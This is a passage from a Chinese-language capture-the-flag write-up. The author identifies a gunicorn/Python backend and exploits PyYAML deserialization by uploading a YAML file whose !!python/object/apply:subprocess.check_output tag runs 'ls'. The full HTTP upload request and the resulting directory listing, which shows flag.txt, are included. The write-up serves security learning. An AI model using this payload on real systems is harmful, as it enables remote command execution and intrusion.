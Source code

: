 正如上面这段代码所示，文档已被我成功上传，但提示信息只告诉了我们上传的文件是否为一个有效的YAML文档。这就让我有些无所适从了…但是在对响应信息进行了进一步的分析之后，我注意到了后台服务器正在运行的是**gunicorn/19.7.1**。

在网上快速搜索了一些关于gunicorn的内容之后，我发现它是一个Python Web服务器，而这也就意味着负责处理YAML文档的解析器应该是一个Python库。因此，我又上网搜索了一些关于Python YAML漏洞的内容，并且还发现了一些介绍PyYAML反序列化漏洞的技术文章。在对这些文章进行了归纳总结之后，我得到了如下所示的专门针对PyYAML反序列化漏洞的漏洞利用代码：



```
!!map `{`
? !!str "goodbye"
: !!python/object/apply:subprocess.check_output [
!!str "ls",
],
`}`
```

接下来就要进入漏洞利用阶段了，但是我们目前还是跟盲人摸象一样得一步一步慢慢摸索。我们首先利用BurpSuite尝试向文档内容中注入Payload，然后再将该文档上传。

**HTTP请求**



```
POST / HTTP/1.1
Host: ganon.39586ebba722e94b.ctf.land:8001
User-Agent: Mozilla/5.0 (compatible; Googlebot/2.1; +http://www.google.com/bot.html)
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Referer: http://ganon.39586ebba722e94b.ctf.land:8001/
Connection: close
Content-Type: multipart/form-data; boundary=---------------------------200783363553063815533894329
Content-Length: 445
 
-----------------------------200783363553063815533894329
Content-Disposition: form-data; name="file"; filename="test.yaml"
Content-Type: application/x-yaml
 
---
!!map `{`
  ? !!str "goodbye"
  : !!python/object/apply:subprocess.check_output [
    !!str "ls",
  ],
`}`
 
-----------------------------200783363553063815533894329
Content-Disposition: form-data; name="upload"
 
 
-----------------------------200783363553063815533894329--
 
&lt;ul&gt;&lt;li&gt;&lt;code&gt;goodbye&lt;/code&gt; : &lt;code&gt;Dockerfile
README.md
app.py
app.pyc
bin
boot
dev
docker-compose.yml
etc
flag.txt
home
lib
lib64
media
```